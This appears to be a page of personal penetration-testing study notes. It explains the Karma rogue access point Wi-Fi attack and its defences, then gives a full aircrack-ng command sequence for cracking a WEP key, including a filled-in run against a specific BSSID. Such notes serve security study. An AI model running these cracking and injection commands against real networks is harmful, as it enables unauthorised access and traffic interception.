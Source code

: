 ```
user	0m0.488s
sys	0m1.544s

```
---karma---
- What goes around...comes around
- Client devices like your laptop, phone, tablet are co  lnsitently sending out probes looking for the last wireless networks you connected to. Karma works by responding to these probes and responds that it is one of your remembered networks. 
- You then connect(sometimes unknowingly) and your traffic can be monitored, spoof websites/DNS, inject code, or even strip ssl.
- Protections would be to pay attention to the networks you are connecting to, use a VPN to encrypt your traffic, on an iPhone you can set your wireless to Ask to Join Networks.
- Dont do sensitive things while at a coffee shop.  
- Some developers have patched wireless drivers so they do not actively broadcast probe requests whilst connected to an Access Point

Sources

[Wiki](http://wiki.wifipineapple.com/index.php/Karma)
[Reaver](https://code.google.com/p/reaver-wps/)
Penetration Testing A Hands-On Introduction to Hacking by Georgia Weidman


## WEP Code
```
airodump-ng start (interface) #see what APs are using WEP

airodump-ng -c (channel) -w (file name) --bssid (bssid) (interface)

--Open another Konsole

aireplay-ng -1 0 -a (bssid) -h 00:11:22:33:44:55 -e (essid) (interface)

aireplay-ng -3 -b (bssid) -h (your:wireless:MAC) (interface)

----wait for Data to reach 10000

--Open third Konsole

aircrack-ng -b (bssid) (file name-01.cap)



airodump-ng -c 11 -w edimax --bssid 80:1F:02:25:86:0A mon0

aireplay-ng -1 0 -a 80:1F:02:25:86:0A -h 00:C0:CA:6C:9B:68 -e Edimax mon0

aireplay-ng -3 -b 80:1F:02:25:86:0A -h 00:C0:CA:6C:9B:68 mon0

aircrack-ng -b 80:1F:02:25:86:0A edimax-01.cap# 
```

